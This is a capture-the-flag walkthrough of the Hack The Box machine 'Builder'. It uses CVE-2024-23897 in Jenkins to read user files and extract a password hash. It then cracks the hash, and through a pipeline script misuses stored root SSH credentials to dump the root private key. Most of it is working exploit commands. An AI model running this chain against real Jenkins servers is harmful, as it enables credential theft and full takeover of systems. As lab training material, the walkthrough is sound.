 # [Builder](https://app.hackthebox.com/machines/builder)

```bash
nmap -p- --min-rate 10000 10.10.11.10 -Pn 
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,8080 10.10.11.10 -Pn 
```

![alt text](img/image-1.png)

For port `8080`, it's `Jenkins` application, let's look at version of this.

![alt text](img/image-2.png)

Version is `Jenkins 2.441`, let's search publicly known exploit for this version of software.

That's [CVE-2024-23897](https://github.com/Praison001/CVE-2024-23897-Jenkins-Arbitrary-Read-File-Vulnerability.git).


Let's do all stuff to exploit.

First, we need to get `jenkins-cli.jar` file via `wget` command.
```bash
wget http://10.10.11.10:8080/jnlpJars/jenkins-cli.jar
```

![alt text](img/image-3.png)


From `Jenkins` [documentation](https://boozallen.github.io/sdp-docs/learning-labs/1/local-development/3-configure-jenkins.html), I found a PATH for `initalAdminPassword`, but it returns nothing.

```bash
java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' help '@/var/jenkins_home/secrets/initialAdminPassword' a
```

![alt text](img/image-4.png)


Let's look at `users` info by reading [this](https://dev.to/pencillr/spawn-a-jenkins-from-code-gfa).

```bash
java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' reload-job '@/var/jenkins_home/users/users.xml'
```

![alt text](img/image-5.png)


From here, I grab user called `jennifer_12108429903186576833`, let's look at configuration details of this.
```bash
java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' reload-job '@/var/jenkins_home/users/jennifer_12108429903186576833/config.xml'
```

![alt text](img/image-6.png)


I take value from `passwordHash` tag.

![alt text](img/image-7.png)


There's user called `jennifer` and other one is `Blowfish` password hash of this user.

Let's crack this via `hashcat` command.
```bash
hashcat -m 3200 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```

![alt text](img/image-8.png)


jennifer: princess

Let's check this credentials for authentication to `Jenkins`.

![alt text](img/image-9.png)


While I trying to discover `Jenkins`, I see that there is `root` user credentails is valid.

![alt text](img/image-10.png)

That's why I can enter script into `Script Console` for `root`user which has id is 1.

```bash
node {
  sshagent (credentials: ['1']) {
    sh 'ssh -o StrictHostKeyChecking=no -l root 10.10.11.10 uname -a'
  }
}
```

![alt text](img/image-11.png)


As we are `root` user already, let's read `private_key` (id_rsa) of `root` user.

```bash
node {
  sshagent (credentials: ['1']) {
    sh 'ssh -o StrictHostKeyChecking=no -l root 10.10.11.10 cat /root/.ssh/id_rsa'
  }
}
```

![alt text](img/image-12.png)


Let's get this private key and change mod and login into machine.
```bash
chmod 600 id_rsa
ssh -i id_rsa root@10.10.11.10
```


user.txt

![alt text](img/image-14.png)

root.txt

![alt text](img/image-13.png)
